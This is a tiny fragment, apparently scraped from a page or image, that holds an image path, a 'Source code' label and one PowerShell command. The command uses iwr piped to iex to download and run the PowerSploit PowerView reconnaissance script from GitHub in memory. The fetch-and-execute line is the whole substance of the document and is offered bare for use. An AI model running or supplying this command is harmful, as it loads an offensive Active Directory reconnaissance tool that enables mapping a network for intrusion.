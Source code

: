 iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1 -UseBasicParsing | iex
